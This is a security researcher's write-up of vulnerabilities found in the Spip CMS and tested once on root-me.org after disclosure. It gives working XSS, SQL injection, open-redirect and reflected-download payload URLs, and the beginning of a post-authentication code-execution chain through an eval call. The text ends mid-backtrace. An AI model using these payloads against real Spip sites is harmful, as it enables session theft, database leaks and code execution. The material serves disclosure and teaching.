Hi there, \
This article is about Spip, [root-me.org](https://www.root-me.org/), XSS, SQLi, and Remote Code Execution. \
Ever wondered how secure is your daily website ? \
Welcome. To. Php. 


## Quick disclaimer before we start: 

> In May the 23rd 2020, someone took over an admin account on root-me by password reuse and threatened to leak solutions and flags. There is no beauty in this act, no technical skill required, nor good purpose. This is just part of the "be an asshole" mindset. More information about this here: \
https://www.root-me.org/breve/Data-theft-password-reuse \
> This article and research has no link with this incident __whatsoever__. 

> This vulnerability research was done locally, and tested only once on root-me.org to have a valid proof of concept before reporting it to the admins. No full dump of the database (solutions, emails, password hashes, ...) has been done, only my personal information and one other user’s entry (he agreed beforehand). Admins and devs from both Spip and root-me were alerted as soon as bugs were found, and reacted with a quick patch process. Every issue has since been patched, and this article is released with their approval.  


A few weeks ago, I was trying to make my web-audit processes more efficient, and I stood upon two problems:

- I tried many crawlers ([Photon](https://github.com/s0md3v/Photon), [Hakrawler](https://github.com/hakluke/hakrawler), [BurpSuite](https://portswigger.net/burp)), none gave me the results I expected (false negatives, no js parsing, output format, custom properties, ...)\
- Auditing parameter's security one by one is way too slow, and not exhaustive

So I began coding two tools on my free time: "Crawlz" and "Sulfateuse". They attempt to solve both of these issues. They are still under heavy development (basically every night since three weeks) and might be open sourced at some point (not anytime soon, no ask, no cry, keep on reading!). 


Once I had a working proof of concept, I wanted to test it against a real life target. I learned so much on root-me, and thus I was expecting the framework they use, [Spip](https://www.spip.net/fr_rubrique91.html), to be secure. I had a quick tour on several CVE websites, and found out that they’ve had a few issues, mostly XSS, LFI, SQLi, and RCE. I thought that this has since been audited roughly, so maybe finding an xss would be a good start. 

You know what? 


# Setup the environment

First things first, in order to test spip, I... Needed Spip? \
I tried to find a docker image, or docker compose to have a pre-packaged test environment but found nothing up-to-date, so I made one. A dirty one. We're not in prod, right?

In order to reproduce my setup, you can clone Spip sources, git or svn (see [their recommended way](https://www.spip.net/fr_article2670.html)) into the spip directory. Then run `docker-compose -f compose-spip.yml up` and voila! The only thing left to do is to visit http://lokal/ecrire, create a new account, a dummy category, page, author, etc in order to have some data, and thus be as exhaustive as possible with a populated environment and databases. 

Side note here, localhost requests are often made in a way that bypasses proxies. I wanted to log and inspect the traffic, so I added the line `127.0.0.1 lokal` in `/etc/hosts` in order to resolve lokal to my loopback address without localhost bypasses in the way. 

This docker-compose file contains MySQL as the SQL backend, Adminer to be able to inspect the database easily, and a recent version of Php and its built-in server to run Spip. 

```
version: '3.5'

services:
  db:
    image: mysql
    command: --default-authentication-plugin=mysql_native_password
    environment:
        - MYSQL_ROOT_PASSWORD=root
    ports:
        - 3306:3306

  adminer:
    image: adminer
    ports:
        - 81:8080

  spip:
    image: php:7.2
    ports:
        - 80:80
    volumes:
        - ./spip:/spip
    working_dir: /spip
    entrypoint: ["bash", "-c", "apt update && apt install -y default-mysql-client && docker-php-ext-install mysqli && php -S 0.0.0.0:80"]
```

# Crawl, Sulfate, Repeat

Even though "a magician never reveals his secrets", here are the core steps of my process:

1. Start the env, launch burp, chromium (with foxy proxy)
1. Navigate on Spip, click on buttons, submit forms, access pages, ...
1. From burp, extract every visited url with their parameters
1. Run Crawlz, be as exhaustive as possible (keep even false positives and broken urls)
1. Triage the urls, remove the odd ones
1. Add some magic here `¯\_(ツ)_/¯`
1. Run Sulfateuse, (a bit like a custom burp intruder)
1. Triage all the results !

One more side note! I used a previous project [Wordpress Subpath Auditor](https://thinkloveshare.com/hacking/wordpress_subpath_auditor/) to get more insights on Spip and check if some quick-wins were already reachable. I found an eval (powerful primitive for code execution) with partially controlled input, but the sanitization in place (alphanum regex whitelisting) was too restrictive. More on that later!

I still noticed one huge limitation for WoSuAu: As it patches the php code in order to analyze it, dynamically generated files are not instrumented as they are only present after the tool is started. This definitely induces false negatives. Instrumenting php itself would have been more efficient... One day maybe?

The tests were ran with the builtin php server `php -S 0.0.0.0:80`. I was too lazy to setup multi-threading, and speed definitely isn't the main concern for Spip folks, nor for me. Sulfateuse ran for approx 10 hours, I slept on it, and the next morning was like one of these christmas day!


# Triage the findings

As Sulfateuse tries to be as exhaustive as possible, there are a lot of false positive. This is a pain, but this is the cost of awesome findings. So I’m fine with it! :)


## XSS

TL;DR(XSS): Inject javascript code in a link (reflected) or in a website stored), in a way that once visited, the script is executed on the victim’s browser context, and thus can take actions on their behalf. A common combo can be to generate a link that, once clicked by an admin, will upload a webshell to get code execution (see [xss2shell](https://github.com/Prochainezo/xss2shell)), or add a new admin-user on the targetted website with credentials known by the attacker. 

A few xss were trivial to find and exploit. Simple or double url-encoded parameters were allowed, thus adding angle brackets was enough to trigger the XSS. Some more complex ones were sanitizing angle brackets, and single or double quotes. Hopefully, breaking an attribute context is often enough to get a working payload!


### XSS on titre

```html
http://lokal/ecrire/?exec=rubriques&titre=pouet<a href=err onfocus=alert(domain) autofocus/>
http://lokal/ecrire/?exec=rubriques&titre=pouet%3Ca%20href=err%20onfocus=alert(domain)%20autofocus/%3E
```



### XSS on label

```html
http://lokal/ecrire/?exec=rubriques&label=laluka<a href=err onfocus=alert(domain) autofocus/>
http://lokal/ecrire/?exec=rubriques&label=laluka%3Ca%20href=err%20onfocus=alert(domain)%20autofocus/%3E
```



### XSS on size_input

```html
http://lokal/ecrire/?exec=rubriques&size_input=lalu" onfocus=alert(domain) autofocus foo="
http://lokal/ecrire/?exec=rubriques&size_input=lalu%22%20onfocus=alert(domain)%20autofocus%20foo=%22
```



### XSS on sinon

```html
http://lokal/ecrire/?exec=article&id_article=1&sinon=<a href=err onfocus=alert(domain) autofocus/>
http://lokal/ecrire/?exec=article&id_article=1&sinon=%3Ca%20href=err%20onfocus=alert(domain)%20autofocus/%3E
```



### XSS on null

This one had more restrictions on the angle brackets, so a style trick and woosh!\
The idea here is to have a style to cover the full screen, and execute an action on hover. As soon as the mouse enters the page, it's a win!

```html
http://lokal/ecrire/?exec=plan&null=lalu' onmouseover=alert(domain) style='width:9999999px;height:9999999px;' foo=
http://lokal/ecrire/?exec=plan&null=lalu%27%20onmouseover=alert(domain)%20style=%27width:9999999px;height:9999999px;%27%20foo=
```



### XSS on quoi (ie-specific)

```html
http://localhost:8000/ecrire/?exec=messages&typem=tout&quoi='/>ie_specific_xss<script>alert(domain)</script>'
```


Sometimes, it's more efficient to steal admin's session in order to browse the website while in our own browser. This might not be trivial to achieve as nowadays, session cookies, authentication tokens and such are protected by mitigations like the flags `secure` and `httpOnly` (and tons of others, but that not today's story!). \
Here, the quick win was to realize that Spip exposes `by default` an access to `phpinfo()` for webmasters. So our xss can, if visited by a webmaster, make that juicy request and get the whole phpinfo output. The best thing here is that it contains information on the system, the current php installation, but also the user's session variables! So any xss found on an install where phpinfo isn't disabled can lead to a direct webmaster session takeover by stealing session cookies and applying them in out own browser. \
Click'n'Woosh!




### Reflected file download

TL;DR(RFD): You click that link, and a file has been downloaded to your desktop. A common scenario is to send such a link with a second stage as data. Like RFD + SSRF + webshell can achieve a remote code execution. Or even RFD on a whitelisted domain to permit the download of a [LNK file crafted to get code execution](https://www.thezdi.com/blog/2020/3/25/cve-2020-0729-remote-code-execution-through-lnk-files). 

```html
http://lokal/spip.php?action=converser&redirect=data%253Aimage/svg+xml,content 
```



### Open redirect

TL;DR(OR): This kind of link permits to redirect a browser to another website or protocol. This can be used to bypass forbidden protocols in SSRF, and is also really efficient for phishing attacks. By redirecting the user from a whitelisted domain to a rogue version of the intended website, an attacker can steal the victim’s credentials. 

```html
https://www.root-me.org/spip.php?action=converser&redirect=https%253A//thinkloveshare.com/ 
```



## SQL injections

TL;DR(SQLi): Exploit a lack of input sanitization to modify the semantic of an SQL request, or execute another one. This can be exploited to leak the whole database, insert custom data, or even execute code. The technologies vary a lot, so it really depends on the language, software, version, os, context, and the character restriction on this specific injection point. 

Here, I tried really hard to exploit an INSERT statement but couldn't find one, only SELECT. I also tried to write to files (webshell) to the filesystem, but MySQL now has a safe by default behavior that kept me from doing so. 

Sulfateuse was testing for bad chars, and bad chars include single and double quotes. 
Error logging was enabled, quotes were injected, SQL errors were raised. Amen. 


### SQL injection on where

```html
http://lokal/ecrire/?exec=accueil&where=SQLI_HERE
```



### SQL injection on lier_trad

```html
http://localhost:8000/ecrire/?exec=article_edit&new=oui&id_rubrique=1&lier_trad=%27
```



Two backends are supported by Spip: MySQL and SQLite. 

Simple sleep in SQLite: 
```html
http://lokal/ecrire/?exec=article_edit&lier_trad=1%2BAND%2B10%3DLIKE%280x41%2CUPPER%28HEX%28RANDOMBLOB%28500000000%2F2%29%29%29%29--+
http://lokal/ecrire/?exec=article_edit&lier_trad=1+AND+10=LIKE(0x41,UPPER(HEX(RANDOMBLOB(500000000/2))))-- 
```

Union based in MySQL:
```html
http://lokal/ecrire/?exec=article_edit&lier_trad=1 AND 1=2 union all select 1,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25;--
http://lokal/ecrire/?exec=article_edit&lier_trad=1+AND+1%3D2%20union%20all%20select%201,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25;--
```



Both of these SQL injections can be reached as a webmaster, an administrator, or even an author. Only the visitor role is restricted from accessing the /ecrire panel). This implies that an author can leak password hashes from every user, including admin and webmaster, crack them offline, and takeover highly privileged accounts, and thus either get code execution, or affect other user's. 


## Remote Code Execution

TL;DR(RCE): Gain code execution on the targeted machine. Aka "your computer is now mine". Once this initial foothold is in place, the privilege escalation game begins! Exploit the way up, from "a low privileged user" to the highest privileges on the machine. 

During the third run on Spip (improving Sulfateuse day after day), two new XSS were found. 
The first one is internet-explorer specific as it doesn’t url-encode bad chars by default. Yuck. 

You can check how various characters are encoded here: [https://www.worldtimzone.com/res/encode/](https://www.worldtimzone.com/res/encode/)


### XSS on var_profile (ie-specific)

```html
http://lokal/ecrire/?exec=admin_plugin&var_profile=pouet'/><script>alert(document.domain)</script>
```



### "XSS" on _oups

This one made me laugh because it affected parameter "_oups". 

```html
https://www.root-me.org/ecrire/?exec=article&id_article=1&_oups=pouet'/><a href=err onfocus=alert(domain) autofocus/>
https://www.root-me.org/ecrire/?exec=article&id_article=1&_oups=pouet%27/%3E%3Ca%20href=err%20onfocus=alert(domain)%20autofocus/%3E
```


As I spent two weeks trying to get code execution via local file inclusion, token leaking via the SQLi, attempts to insert serialized objects in the database, and so on. I eventually gave up, assuming that only XSS and SQLi were present. But the very next day, [g0uZ](https://www.root-me.org/g0uZ) (admin at root-me, dev at Spip, what a small world! ) came back to me, explaining that "the last XSS you found is a Remote Code Execution". I was a bit pissed, like "Come on, I already spent too many nights, I’m done here". But I was not!\
He teased me enough to open burp, start the env, put on my hoodie and inject code!\
A few `debug_print_backtrace();` and `echo "lalu_debug_01";die();` later, I had a (post-auth) Remote Code Execution. 

Turns out it was another parameter reflected in the initial eval I was targeting, but this one had no filtering on. Snap! \
This vulnerability can be reached as a webmaster, admin, or author. 

The analysis workflow was the following: 

1. Track the "_oups" parameter, add debug statements
1. Analyse the generated stacktraces, determine that eval is the sink\
I know this is wayyy too small, text version below..

```
#0  eval() called at [/issue_4494/ecrire/public/evaluer_page.php:55]
#1  include(/issue_4494/ecrire/public/evaluer_page.php) called at [/issue_4494/ecrire/public/assembler.php:657]
#2  evaluer_fond(formulaires/editer_liens, Array ([editable] =>  ,[id] => auteurs-article-1-auteur,[_vue_liee] => auteurs_lies,[_vue_ajout] => auteurs_associer,[_objet_lien] => auteur,[id_lien_ajoute] => ,[objet] => article,[id_objet] => 1,[objet_source] => auteur,[table_source] => auteurs,[recherche] => ,[visible] => 0,[ajouter_lien] => ,[supprimer_lien] => ,[qualifier_lien] => ,[ordonner_lien] => ,[desordonner_liens] => ,[_roles] => ,[_oups] => '<?php debug_print_backtrace();die();?>',[_pipelines] => Array ([formulaire_fond] => Array ([form] => editer_liens,[args] => Array ([0] => auteurs,[1] => article,[2] => 1),[je_suis_poste] => )),[formulaire_args] => z+FJ1rTG/lk75IfPcVqrygiJhj3wixKIFYDVzdNWKSfpyNiJtN8gQpPFZh4QRLr2nrCnZYNK061VIxk9YkVVB9TNlAxClgABPC6zutkBCynE3wP7ew8PXA==,[erreurs] => Array (),[action] => /ecrire/?exec=article&amp;id_article=1&amp;ajouter=non&amp;tri_liste_aut=statut&amp;deplacer=oui&amp;_oups=%27%3C&amp;php%20debug_print_backtrace%28%29%3Bdie%28%29%3B&amp;%3E%27,[form] => editer_liens,[lang] => en), ) called at [/issue_4494/ecrire/inc/utils.php:3258]
#3  recuperer_fond(formulaires/editer_liens, Array ([editable] =>  ,[id] => auteurs-article-1-auteur,[_vue_liee] => auteurs_lies,[_vue_ajout] => auteurs_associer,[_objet_lien] => auteur,[id_lien_ajoute] => ,[objet] => article,[id_objet] => 1,[objet_source] => auteur,[table_source] => auteurs,[recherche] => ,[visible] => 0,[ajouter_lien] => ,[supprimer_lien] => ,[qualifier_lien] => ,[ordonner_lien] => ,[desordonner_liens] => ,[_roles] => ,[_oups] => '<?php debug_print_backtrace();die();?>',[_pipelines] => Array ([formulaire_fond] => Array ([form] => editer_liens,[args] => Array ([0] => auteurs,[1] => article,[2] => 1),[je_suis_poste] => )),[formulaire_args] => z+FJ1rTG/lk75IfPcVqrygiJhj3wixKIFYDVzdNWKSfpyNiJtN8gQpPFZh4QRLr2nrCnZYNK061VIxk9YkVVB9TNlAxClgABPC6zutkBCynE3wP7ew8PXA==,[erreurs] => Array (),[action] => /ecrire/?exec=article&amp;id_article=1&amp;ajouter=non&amp;tri_liste_aut=statut&amp;deplacer=oui&amp;_oups=%27%3C&amp;php%20debug_print_backtrace%28%29%3Bdie%28%29%3B&amp;%3E%27,[form] => editer_liens,[lang] => en), Array ([trim] => ,[raw] => 1,[compil] => Array ([0] => 